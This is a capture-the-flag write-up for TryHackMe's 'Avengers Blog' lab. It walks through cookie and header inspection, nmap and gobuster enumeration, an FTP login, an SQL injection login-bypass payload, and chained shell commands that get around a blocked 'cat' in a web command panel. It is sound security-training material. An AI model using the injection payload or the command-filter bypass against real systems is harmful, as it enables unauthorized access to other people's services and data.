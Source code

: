 # Avengers Blog Writeup

### Task 1 Deploy

Deploy the vm and connect with openvpn.

### Task 2 Cookies

Navigate to the web server running on the machine in your browser and right-click and choose 'Inspect Element' if using Firefox. Click the storage tab to look at cookies in your browser. View the value of the flag1 cookie.

### Task 3 HTTP Headers

Staying in developer tools, go to the network tab and click on the first request made "/". In Firefox you can view the header information on the right side of the developer tools. View the section under "Response Headers" and flag2 will be one of the response headers.

### Task 4 Enumeration and FTP

```
nmap -sC -sV -v -A 10.10.31.84
```
We start by running a port scan on the target. I like to use -sV as it probes for versions and -A as it gives us more information about the OS, versions, runs scripts, and traceroute.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a7:1c:5c:b9:a3:17:38:eb:2b:3b:d8:a4:22:bc:01:b8 (RSA)
|   256 3b:c4:2a:b4:8e:2a:58:70:5b:6f:30:7e:0a:b4:c6:44 (ECDSA)
|_  256 0e:fc:ac:89:85:3f:6f:44:ef:bc:40:d7:cf:c0:ba:f2 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-favicon: Unknown favicon MD5: E084507EB6547A72F9CEC12E0A9B7A36
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Avengers! Assemble!
```
From our scan we see that ftp is running on the victim, so lets check that out.

```
# ftp 10.10.31.84
Connected to 10.10.31.84.
220 (vsFTPd 3.0.3)
Name (10.10.31.84:cornbread): groot
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
Using the ftp command and supplying a username and password we gathered from our reconnaissance of the website we authenticate into the ftp server. It looks like there is a directory 'files' and inside we find flag3.txt which we can grab.
```
ftp> get flag3.txt
```

### Task 5 GoBuster

```
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.31.84/
```
After running gobuster for about 1 minute we find a bunch of directories but the one we are looking for is the login page '/portal'.

```
===============================================================
/img                  (Status: 301) [Size: 173] [--> /img/]
/home                 (Status: 302) [Size: 23] [--> /]     
/Home                 (Status: 302) [Size: 23] [--> /]     
/assets               (Status: 301) [Size: 179] [--> /assets/]
/portal               (Status: 200) [Size: 1409]              
/css                  (Status: 301) [Size: 173] [--> /css/]   
/js                   (Status: 301) [Size: 171] [--> /js/]    
/logout               (Status: 302) [Size: 29] [--> /portal]  
/Portal               (Status: 200) [Size: 1409]
```

### Task 6 SQL Injection

Go to the portal page and we are presented with a simple login page. In this case we know its vulnerable to SQLi and there are a variety of different payloads you can try but we'll just go with a simple:
```
' or 1=1-- '
```
Boom! Putting this in the username and password field seems to work as we are authenticated and redirected to Jarvis Control Panel at '/home'. In Firefox we can right click and 'View Page Source' then look on the left hand side to read the lines of code for the answer.

### Task 7 Remote Code Execution and Linux

We have a command line where we can seemingly run certain commands. So lets try ls.
This gives us the current directory so we can try to navigate the file system for the flag. Going back one directory we see flag5.txt.
```
cd ../; ls; cat flag5.txt
```
After trying this we are not allowed to use cat and are told to use a different method of displaying the file. TryHackMe wants you to use tac but I used less. Both will return the same output in this situation.

```
cd ../; ls; less flag5.txt
```


